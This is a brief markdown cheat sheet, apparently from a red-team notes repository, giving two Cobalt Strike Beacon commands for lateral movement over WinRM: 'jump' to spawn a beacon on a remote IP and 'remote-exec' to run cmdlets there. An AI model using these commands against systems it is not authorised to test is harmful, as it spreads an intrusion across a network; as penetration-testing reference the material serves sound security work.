 # Cobalt Strike

## 01 - Jump

`beacon> jump <winrm | winrm64> <IP> <listener>`

## 02 - Remote-Exec

### 2.1 - Execute Commands

`beacon> remote-exec winrm <IP> <cmdlets>`